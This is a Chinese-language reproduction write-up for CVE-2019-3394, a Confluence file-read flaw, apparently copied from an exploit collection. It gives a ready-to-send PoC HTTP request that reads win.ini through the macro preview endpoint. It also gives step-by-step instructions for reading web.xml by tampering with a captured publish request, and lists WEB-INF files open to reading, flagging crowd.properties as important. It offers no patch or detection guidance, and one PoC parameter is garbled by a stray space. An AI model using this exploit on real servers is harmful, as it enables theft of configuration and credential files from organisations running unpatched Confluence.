



# （CVE-2019-3394）Confluence 文件读取漏洞

> 原文：[http://book.iwonder.run/0day/Confluence/2.html](http://book.iwonder.run/0day/Confluence/2.html)

## 一、漏洞简介

> （CVE-2019-3394）Confluence 文件读取漏洞

## 二、影响范围

*   6.1.0 <= version < 6.6.16
*   6.7.0 <= version < 6.13.7
*   6.14.0 <= version < 6.15.8

## 三、复现过程

#### poc

```
POST /rest/tinymce/1/macro/preview  HTTP/1.1
Host: localhost:8090
Content-Length: 175
Accept: text/plain, */*; q=0.01 
Origin: http://localhost:8090
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36 
Content-Type: application/json; charset=UTF-8
Referer: http://localhost:8090/ 
Connection: close

{"contentId":"1","macro":{"name":"widget","params": {"url":"https://www.viddler.com/v/test","width":"1000","height":"1000","_templat e":"file:///C:/Windows/win.ini"},"body":""}} 
```

#### 触发条件

1.  一个有效的登录账号
2.  该账号具有在空间「添加页面」的权限

#### 复现步骤

1.创建一个空白页


2.插入一张网络图片





> <font color="red">插入 url 改为你需要查看的文件，例如 /packages/../web.xml</font>

3.点击发布，抓取报文

4.删除多余 url 前缀,只留下 `/packages/../web.xml` 并放开报文



5.查看页面源码确认修改成功


6.导出 word，并抓包查看


#### 路径说明

由于 `catalina.jar`中的 `org.apache.catalina.webresources.StandardRoot.class`的 getResource 方法的 `validate`存在过滤和限制，所以可遍历路径均在 `/WEB-INF`下

可读取的文件大致如下

```
#WEB-INF 下
decorators.xml
glue-config.xml
server-config.wsdd
sitemesh.xml
urlrewrite.xml
web.xml
#/WEB-INF/classes 下
confluence-filtered-frames.properties
confluence-init.properties
crowd.properties(较为重要)
hash-registry.properties
lgplTemplate.soy
log4j-diagnostic.properties
log4j.properties
logging.properties
mime.types
osuser.xml
seraph-config.xml
seraph-paths.xml
velocity_implicit.vm
velocity.properties 
```

